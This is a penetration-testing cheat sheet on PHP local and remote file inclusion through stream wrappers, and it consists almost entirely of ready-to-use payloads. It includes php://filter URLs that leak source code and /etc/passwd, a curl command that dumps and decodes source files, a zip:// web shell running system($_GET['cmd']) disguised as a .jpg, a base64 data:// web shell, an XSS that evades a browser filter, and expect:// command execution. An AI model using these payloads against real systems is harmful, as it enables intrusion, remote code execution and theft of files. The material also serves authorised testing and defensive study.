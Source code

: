 ## LFI / RFI using wrappers
### Wrapper php://filter
The part “php://filter” is case insensitive

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

NOTE :-  Always try without extention if the index.php is not working with this test case .
can be chained with a compression wrapper for large files.

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```
NOTE: Wrappers can be chained multiple times : php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s

```
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```
## Wrapper zip://

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

## Wrapper data://

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+

## Wrapper expect://

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
